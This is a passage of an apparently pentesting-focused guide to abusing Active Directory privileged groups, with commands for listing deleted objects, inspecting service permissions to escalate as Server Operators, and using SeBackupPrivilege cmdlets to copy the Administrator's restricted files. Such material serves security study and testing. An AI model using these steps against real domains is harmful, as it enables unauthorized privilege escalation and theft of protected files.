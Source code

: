 ```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

### Domain Controller Access

Access to files on the DC is restricted unless the user is part of the `Server Operators` group, which changes the level of access.

### Privilege Escalation

Using `PsService` or `sc` from Sysinternals, one can inspect and modify service permissions. The `Server Operators` group, for instance, has full control over certain services, allowing for the execution of arbitrary commands and privilege escalation:

```cmd
C:\> .\PsService.exe security AppReadiness
```

This command reveals that `Server Operators` have full access, enabling the manipulation of services for elevated privileges.

## Backup Operators

Membership in the `Backup Operators` group provides access to the `DC01` file system due to the `SeBackup` and `SeRestore` privileges. These privileges enable folder traversal, listing, and file copying capabilities, even without explicit permissions, using the `FILE_FLAG_BACKUP_SEMANTICS` flag. Utilizing specific scripts is necessary for this process.

To list group members, execute:

```bash
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```

### Local Attack

To leverage these privileges locally, the following steps are employed:

1. Import necessary libraries:

```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

2. Enable and verify `SeBackupPrivilege`:

```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

3. Access and copy files from restricted directories, for instance:

```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```
